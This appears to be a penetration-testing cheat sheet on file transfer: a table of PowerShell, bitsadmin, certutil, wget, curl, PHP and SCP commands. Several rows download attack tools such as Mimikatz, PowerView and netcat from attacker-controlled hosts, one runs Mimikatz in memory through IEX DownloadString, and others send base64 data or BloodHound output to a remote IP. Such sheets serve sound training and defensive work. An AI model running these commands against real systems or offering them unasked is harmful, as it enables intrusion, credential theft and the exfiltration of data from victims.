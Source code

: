 ***

## Cheat Sheet

| **Command**                                                                                                        | **Description**                             |
| ------------------------------------------------------------------------------------------------------------------ | ------------------------------------------- |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                                            | Download a file with PowerShell             |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                              | Execute a file in memory using PowerShell   |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                                            | Upload a file with PowerShell               |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                   | Download a file using Bitsadmin             |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                                      | Download a file using Certutil              |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`                   | Download a file using Wget                  |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`                   | Download a file using cURL                  |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`          | Download a file using PHP                   |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                                 | Upload a file using SCP                     |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                                           | Download a file using SCP                   |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
